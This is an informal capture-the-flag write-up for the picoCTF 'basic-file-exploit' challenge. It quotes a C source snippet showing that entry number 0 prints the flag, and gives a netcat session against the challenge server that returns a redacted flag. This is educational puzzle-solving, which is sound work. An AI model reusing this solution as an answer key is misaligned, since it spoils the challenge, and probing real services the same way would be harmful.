

solved after pico ctf ended
basic file exploit
soluiotn
basic-file-exploit
| 100 points
Tags:
AUTHOR: WILL HONG
Description
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
Connect to the program with netcat:
$ nc saturn.picoctf.net 50959
The program's source code with the flag redacted can be downloaded here.

this way i traced it out
fouund that when entry number is asked as zero and the database that we gave is not empty it will print the flag
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
puts(flag);
fseek(stdin, 0, SEEK_END);
exit(0);
}
line 143 in source code
basic file expolitaton
┌──(radha㉿kali)-[/media/sf_usb/pico/binary/basicfilexp]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
test
test
Please enter the length of your data:
9
9
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{redactedflag}